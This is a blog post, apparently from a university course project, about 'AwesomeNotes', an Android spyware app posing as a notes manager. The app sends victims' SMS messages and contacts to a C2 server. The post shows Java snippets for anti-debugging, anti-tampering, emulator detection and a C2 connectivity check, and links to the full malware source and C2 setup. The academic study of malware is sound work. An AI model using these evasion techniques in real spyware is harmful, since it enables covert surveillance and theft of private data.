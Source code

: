 ```yaml
---
title: "The homemade Pegasus [EN]"
date: 2022-06-02T17:03:28+02:00
draft: false
---
```

{{< justify-text >}}

### Introduction :mag:

In the last few months, the growing trend of spyware [^1] and the report [^2] of socially recognized and famous victims made that the word "*Pegasus*" appears in our conversations with friends over coffee or on the front pages of the media. 

But, what is *Pegasus*? Basically, is a spyware that can infiltrate a device and harvest personal and location data, control the phone's microphones and cameras without the user's knowledge or permission. This tool was made by the Israeli technology company NSO Group, and several reports informs that it affected heads of state including Emmanuel Macron (France), Pedro Sánchez (Spain),  the South African President Cyril Ramaphosa among others. But the best known case could be called that of Jeff Bezos mobile infection, which is explained in detail in the following video of the cybersecurity content creator [Marcelo Vázquez (aka. s4vitar)](https://www.linkedin.com/in/s4vitar/).

{{< youtube id="rABIDoDKGB0" >}}  

### ¿So, what we do? :computer:

Due to the above arguments, combined with the proposal of the design of a malicious app for Android 8.1 in a subject of our MSc, we decided to create an ostensibly apk for the creation and management of notes. We called it *AwesomeNotes*, but its hidden features go much further than previously described...

![AwesomeNotes](/awesome-notes.jpeg 'AwesomeNotes app')

The app collects private information from our devices such SMS, contact numbers among other data and sends it to a C2 server over HTTPS. It's a sophisticated application due to the protection measures implemented on it to avoid analysis through the application of reverse engineering. Among them the following stand out:  

- Anti-debugging.
```java
// Anti-debugging check
boolean isBeingDebugged = android.os.Debug.isDebuggerConnected();
```
- Anti-backup.
```java
// Anti-backup check
boolean isBackupAllowed = (getApplicationInfo().flags & ApplicationInfo.FLAG_ALLOW_BACKUP) != 0;
```
- Anti-tampering.
```java
// Anti-Tampering
CRC32 crc = new CRC32();
crc.update(bytes);

boolean isTampered = crc.getValue() != Long.parseLong(getString(R.string.crc));
```
- Code ofuscation.
```java
buildTypes {
    release {
        // Enable code optimization and obfuscation (in build.gradle)
        minifyEnabled true
        shrinkResources true

        proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'

        signingConfig signingConfigs.release
    }
}
```

- Anti-virtualization.
```java
// Anti-VM
try {
    isVirtualized = Utils.hasGenyFiles() || Utils.hasEth0Interface() || Utils.hasQEmuProps(getApplicationContext()) ||
            Utils.hasPipes() || Utils.hasEmulatorBuild(getApplicationContext()) || Utils.isOperatorNameAndroid(getApplicationContext()) ||
            Utils.hasQEmuDrivers() || Utils.hasQEmuFiles() || Utils.hasTracerPid() || Utils.hasAppAnalysisPackage(getApplicationContext()) ||
            Utils.hasTaintClass() || Utils.detectsensor(getApplicationContext());
} catch (IOException e) {
    System.out.println("Anti-analysis: VM check failed");
}
```
- Polymorphism.
```java
// Polymorphism
System.out.println(RANDOM);
```
- Conectivity check with C2 server.
```java
// Connectivity check
AliveAPI api = new AliveAPI();

try { if (Integer.parseInt(api.execute(getString(R.string.c2) + "alive").get()) != 200) throw new Exception(); }
catch (Exception e) {
    System.out.println("Anti-analysis: Server down");
    start = false;
}
```
- Communication encryption (HTTPS using self-signed certificate).

Both source code, the apk's with or without anti-analysis measures and the deployment instructions for the evil C2 server infraestructure are available in the following [public GitHub repository](https://github.com/javirodriguezzz/awesome-notes-malware).

### Contributors

|   **Contributor Name**   	|                                   **Contributions**                                   	|                                                    **Socials**                                                   	|
|:------------------------:	|:-------------------------------------------------------------------------------------:	|:----------------------------------------------------------------------------------------------------------------:	|
|   _David Landín Calvo_   	| UI design, anti-analysis measures, integrity system control, communication encryption 	| [LinkedIn](https://www.linkedin.com/in/david-land%C3%ADn-calvo-528ab91a3/) [GitHub](https://github.com/david-lc) 	|
|   _David Soler García_   	|                              UI design, malicious service, *send* Endpoint                             	|  [LinkedIn](https://www.linkedin.com/in/david-soler-garc%C3%ADa-90b21b1a5/) [GitHub](https://github.com/SDABIS)  	|
| _Javier Rodríguez Campo_ 	|        Integration of anti-virtualization techniques, communication encryption        	|           [LinkedIn](https://www.linkedin.com/in/jrcampo/) [GitHub](https://github.com/javirodriguezzz)          	|                 |

[^1]: *Source [MSSP Alert](https://www.msspalert.com/cybersecurity-guests/stalkerware-detection-trends-monitor-and-spyware-findings/)*
[^2]: *[Verizon report](https://www.verizon.com/business/resources/reports/2020-data-breach-investigations-report.pdf)*